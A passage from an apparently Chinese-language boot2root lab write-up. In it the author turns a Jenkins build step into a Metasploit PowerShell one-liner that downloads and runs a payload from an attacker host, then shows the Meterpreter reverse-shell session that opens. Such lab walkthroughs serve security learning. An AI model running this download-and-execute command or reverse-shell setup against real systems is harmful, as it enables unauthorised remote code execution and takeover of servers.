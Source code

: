 ![](img/544b07f90611d53183c06eb5543e634f.png)

**图 7:【建造】部分**

在命令文本框上(图 7a)，我用 Metasploit 给出的以下 PowerShell 命令替换了`whoami`命令:

```
powershell.exe -nop -w hidden -c $Z=new-object net.webclient;$Z.proxy=[Net.WebRequest]::GetSystemWebProxy();$Z.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $Z.downloadstring('http://<attackbox ip>:8080/lH2GrCFxu1');
```

然后，我依次点击“应用”按钮(图 7b)和“保存”按钮(图 7c)。最后，为了获得反向的 Meterpreter shell，我单击了项目主页上的“Build Now”按钮(图 6b ),并在我的攻击框中获得了以下内容:

```
msf5 exploit(multi/script/web_delivery) > [*] <boot2root ip> web_delivery — Delivering Payload (1933) bytes
[*] Sending stage (180291 bytes) to <boot2root ip>
[*] Meterpreter session 1 opened (<attackbox ip>:4444 -> <boot2root ip>:49287) at [redacted] -0400**msf5 exploit(multi/script/web_delivery) >**
```

下一步自然是与 Meterpreter 会话进行交互:

```
**msf5 exploit(multi/script/web_delivery) > sessions -l**Active sessions
===============Id Name Type Information Connection
-- ---- ---- ----------- ----------
 1 meterpreter x86/windows alfred\bruce @ ALFRED <attackbox ip>:4444 -> <boot2root ip>:49287 (<boot2root ip>)**msf5 exploit(multi/script/web_delivery) > sessions -i 1**
[*] Starting interaction with 1…
```
